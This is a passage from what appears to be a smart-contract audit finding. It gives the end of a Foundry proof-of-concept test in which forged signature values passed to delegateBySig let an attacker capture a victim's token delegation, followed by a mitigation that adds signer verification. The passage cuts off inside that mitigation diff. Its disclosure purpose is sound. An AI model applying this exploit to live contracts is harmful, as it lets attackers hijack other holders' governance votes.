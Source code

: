 ```solidity
                token.DOMAIN_SEPARATOR(),
                keccak256(
                    abi.encode(
                        token.DELEGATION_TYPEHASH(),
                        attacker,
                        0,
                        block.timestamp
                    )
                )
            )
        ),
        v_manipulated,
        r_manipulated,
        s_manipulated
    );

    // This random victim has tokens
    token.mint(manipulatedAddress_owner, mintAmount);
    token.setMaxDelegates(2);

    vm.prank(manipulatedAddress_owner);
    token.incrementDelegation(oldDelegatee, beforeDelegateAmount);

    uint256 expected = attacker == address(0) ? 0 : mintAmount;
    uint256 expectedFree = attacker == address(0) ? mintAmount : 0;

    token.delegateBySig(attacker, 0, block.timestamp, v_manipulated, r_manipulated, s_manipulated);

    require(
        oldDelegatee == attacker ||
            token.delegatesVotesCount(manipulatedAddress_owner, oldDelegatee) == 0
    );
    require(token.delegatesVotesCount(manipulatedAddress_owner, attacker) == expected);
    require(token.userDelegatedVotes(manipulatedAddress_owner) == expected);
    require(token.getVotes(attacker) == expected);
    require(token.freeVotes(manipulatedAddress_owner) == expectedFree);
}
```

## Tools Used

Manual Review

## Recommended Mitigation Steps

Check that the ecrecover result is the same as intended and that the signature is valid. 

```diff
function delegateBySig(
+       address delegator,
        address delegatee,
        uint256 nonce,
        uint256 expiry,
        uint8 v,
        bytes32 r,
        bytes32 s
    ) public {
        require(
            block.timestamp <= expiry,
            "ERC20MultiVotes: signature expired"
        );
        address signer = ecrecover(
            keccak256(
```